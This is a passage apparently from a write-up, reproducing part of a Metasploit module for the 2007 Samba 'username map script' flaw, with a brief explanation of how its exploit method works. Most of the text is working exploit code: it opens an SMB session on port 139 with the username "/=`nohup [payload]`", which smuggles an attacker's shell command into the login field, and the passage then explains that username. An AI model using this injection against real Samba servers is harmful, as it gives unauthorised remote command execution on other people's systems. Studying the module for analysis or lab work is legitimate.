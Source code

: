                                             'Space'    => 1024,
                                            'DisableNops' => true,
                                            'Compat'      =>
                                                    {
                                                            'PayloadType' => 'cmd',
                                                            # *_perl and *_ruby work if they are installed
                                                            # mileage may vary from system to system..
                                                    }
                                    },
                            'Targets'        =>
                                    [
                                            [ "Automatic", { } ]
                                    ],
                            'DefaultTarget'  => 0,
                            'DisclosureDate' => 'May 14 2007'))

                    register_options(
                            [
                                    Opt::RPORT(139)
                            ], self.class)
            end


            def exploit

                    connect

                    # lol?
                    username = "/=`nohup " + payload.encoded + "`"
                    begin
                            simple.client.negotiate(false)
                            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                    rescue ::Timeout::Error, XCEPT::LoginError
                            # nothing, it either worked or it didn't ;)
                    end

                    handler
            end

    end



The key part is in `def exploit` at the bottom. It is creating an SMB
session using:

-   username = `` /=`nohup [payload]` ``
-   password = random 16 characters
-   domain = user provided domain
